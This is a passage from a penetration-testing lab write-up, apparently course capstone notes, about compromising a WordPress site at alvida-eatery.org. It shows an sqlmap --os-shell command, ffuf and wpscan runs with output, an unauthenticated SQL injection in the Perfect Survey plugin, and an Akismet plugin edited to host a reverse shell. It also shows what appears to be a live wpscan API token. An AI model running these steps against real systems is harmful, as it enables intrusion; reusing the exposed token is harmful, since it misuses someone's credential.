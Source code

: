 #### Running sqlmap with os-shell
```Shell
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```
we can invoke **sqlmap** with the **-r** parameter, using our file containing the POST request as an argument. We also need to indicate which parameter is vulnerable to sqlmap, in our case _item_. Finally, we'll include **--os-shell** along with the custom writable folder we found earlier.

Once sqlmap confirms the vulnerability, it prompts us for the language the web application is written in, which is PHP in this case

## Capstone 1 Write-Up

The first capstone exercise featured an SQL injection vulnerability that allowed a password to be discovered and cracked. This enabled the tester to authenticate to the WordPress site as an admin user and modify the Askimet plugin with a reverse shell that connected to a netcat listener.

### The Attack Path the tester followed was:
1. Added alvida-eatery.org to /etc/hosts file w/ the provided IP address
2. Ran wpscan on the address, which identified an unauthenticated SQL injection vulnerability
3. This injection disclosed a password hash in an API
4. The password hash was cracked, providing access 

#### Detailed Steps for this engagement:

On the home page of the web application, there was a URL in the `ABOUT` section of the web page.
![[alvida-eatery_org.png]]

This was added to the `/etc/hosts` file with the provided IP address.
![[etc-hosts.png]]

This allowed the tester access to this website. From there, the tester ran ffuf to fuzz the directories of the web application and obtain further information about the target.
```Shell
ffuf -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://alvida-eatery.org/FUZZ

<SNIP>

wp-content              [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 60ms]
# directory-list-2.3-small.txt [Status: 200, Size: 80244, Words: 3700, Lines: 1096, Duration: 3776ms]
wp-includes             [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 112ms]
<SNIP>
wp-admin                [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 68ms]
```

The output from ffuf shows that the web application is running WordPress. The tester ran wpscan against the application to identify more information about the webpage, including potential vulnerabilities that could be exploited.
```Shell
wpscan --url http://alvida-eatery.org --enumerate --api-token 0qSWF2tHdeezcVNms7KTJRci1xA4KIi7GznJrl7LscI

<SNIP>
 | [!] Title: Perfect Survey < 1.5.2 - Unauthenticated SQL Injection
 |     Fixed in: 1.5.2
 |     References:
 |      - https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24762

<SNIP>
```
